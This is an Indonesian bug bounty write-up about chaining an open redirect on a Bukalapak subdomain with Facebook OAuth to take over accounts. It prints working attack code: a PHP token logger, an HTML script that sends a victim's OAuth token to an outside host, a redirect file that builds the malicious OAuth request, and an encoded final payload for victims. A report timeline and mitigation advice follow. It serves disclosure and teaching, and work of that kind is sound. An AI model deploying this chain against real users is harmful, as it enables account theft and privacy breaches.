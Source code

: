 ```yaml
---
title: "Open redirect -> Account Takeover pada bukalapak.com"
date: 2020-07-14 01:38:00 +0000
modified: 2020-07-14
description: "Escalating Open Redirect into Account Takeover pada Bukalapak.com"
comments: true
tags:
- bukalapak
mathjax: false
category:
- Bugbounty
private: false

---
```

### Open Redirect  

Open Redirect adalah kerentanan dimana aplikasi menerima input dari pengguna yang akan digunakan untuk perpindahan halaman atau redirect pada aplikasi dan biasanya input tersebut tidak mempunyai filter atau dapat dibypass, input dari user yang akan di gunakan sebagai redirect tersebut yang menyebabkan penyalahgunaan fitur tersebut.

### Account Takeover 

Account Takeover adalah mengambil alih akses akun orang lain sama seperti artinya secara harviah, untuk melakukan account takeover kita dapat menggunakan berbagai macam cara, salah satunya adalah yang akan dijelaskan pada report ini yaitu menggabungkan kerentanan *Open Redirect* dengan *Oauth Authentication* untuk mendapatkan *token* dari akun orang lain, sehingga dapat mengambil alih akses terhadap akun yang dimiliki orang lain.  

###  Kesimpulan Masalah   

Open redirect yang ditemukan ada pada domain glimpse.bukalapak.com dengan parameter link, contoh open redirect nya adalah : [https://glimpse.bukalapak.com/redirect?link=https://evil.com](https://glimpse.bukalapak.com/redirect?link=https://evil.com "https://glimpse.bukalapak.com/redirect?link=https://evil.com") tapi karena bukalapak tidak menerima *Open Redirect* yang meliki impact keamanan yang kecil, maka saya harus mencari cara untuk memanfaatkan celah yang ada untuk mendapatkan celah yang mempunyai impact lebih besar dari pada sekedar *Open Redirect*.  

![Bukalapak Details](/images/bukalapak/redir.PNG)

saya mencoba memanfaatkan kelemahan tersebut(open redirect) agar bisa meningkatkan tingkat resikonya dengan *oauth authentication* (facebook/google) dan dapat melakukan *account takeover*. 

fitur login dengan facebook yang berada di url berikut:   

    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fctfs.me&response_type=token

Oauth facebook memiliki 3 parameter yang seharusnya ada para requestnya yaitu **client_id** dimana **727108917352926** adalah ID milik aplikasi bukalapak di facebook , kemudian **redirect_uri** adalah url yang akan menerima callback dari facebook **Yang hanya bisa di arahkan kepada domain milik bukalapak yaitu \*.bukalapak.com** , karena kita sudah memiliki open redirect maka attack scenario ini dapat mudah dijalankan, jika kita menggunakan domain selain bukalapak sebagai **redirect_uri** nya maka kita akan mendapatkan error berikut :   

![Error FB Oauth](/images/bukalapak/error.PNG)

Skenario yang saya buat untuk melancarkan attack ini adalah sebagai berikut :   

![Skenario](/images/bukalapak/skenario.PNG)

saya menggunakan 3 file berikut untuk mendapatkan token dari user, tanpa adanya user interaction sama sekali hingga tokennya tersimpan di dalam log yang saya persiapkan.   

```
    //file save.php
    <?php
    $file = fopen("token_facebook_log.txt","a");
    fwrite($file,@$_GET['data']."\n");
    fclose($file);
    ?>
```    

```
    //file steal.html
    <h2> 😈😈😈</h2>
    <script>
     let token = window.location.hash.substring(1);
     //alert("YOUR TOKEN IS MINE: "+token);
     const Http = new XMLHttpRequest();
     const url='https://security.ctfs.me/save.php?data='+token;
     Http.open("GET", url);
     Http.send();
     Http.onreadystatechange=(e)=>{
     console.log(Http.responseText)
     }
    </script>
    <meta http-equiv="refresh" content="1; url=https://bukalapak.com" />
```

```
    //file trusted.php
    <?php
    header("Location:
    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fglimpse.bukalapak.com%2Fredirect%3Flink%3Dhttps://security.ctfs.me
    /steal.html&response_type=token&scope=email%2C+groups_access_member_info%2C+p
    ublish_to_groups%2C+user_age_range%2C+user_birthday%2C+user_events%2C+user_fri
    ends%2C+user_gender%2C+user_hometown%2C+user_likes%2C+user_link%2C+user_loca
    tion%2C+user_photos%2C+user_posts%2C+user_tagged_places%2C+user_videos%2C+pu
    blish_actions%2C+manage_pages%2C+instagram_basic");
    ?>
```

Untuk validasi token yang kita dapatkan ke facebook bisa menggunakan [https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2](https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2 "https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2"), dan ternyata ketika user tersebut menggunakan Mobile Apps Bukalapak token yang di grant mempunyai waktu expired **NEVER** yang berarti hanya perlu 1x mengambil token dari korban dan attacker dapat login menggunakan token tersebut kapanpun(**NEVER**).

![FB Debug](/images/bukalapak/debug.PNG)  

    // Final Payload ( untuk di-kirimkan kepada korban )
    https://glimpse.bukalapak.com/redirect?link=%68%74%74%70%73%3a%2f%2f%73%65%6
    3%75%72%69%74%79%2e%63%74%66%73%2e%6d%65%2f%74%72%75%73%74%65%64
    %2e%70%68%70

User tidak diperlukan melakukan apapun **jika sudah terauthentikasi bukalapaknya dengan facebook** (jika belum maka aplikasi bukalapak akan meminta izin ke facebook) dan kemudian token user tersebut akan dikirim kepada log attacker.


### Video POC

<iframe width="560" height="315" src="https://www.youtube.com/embed/CR3Uyw7ydhg" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

### Timeline

**Sent Report to security@bukalapak.com:** Jan 17, 2019, 12:49 AM

### Saran

Untuk mitigasi celah keamanan ini bisa dengan menerapkan whitelist terhadap redirect yang ada pada glimpse.bukalapak.com atau merubah konfigurasi aplikasi facebook-nya agar hanya menerima domain tertentu saja untuk menerima callback token dari oauth, jangan menggunakan wildcard **\*.bukalapak.com** karena bukalapak yang memiliki banyak domain dan asset dibelakang domain tersebut jadi akan sulit untuk memastikan semua asset tidak memiliki kerentanan seperti *open redirect*.
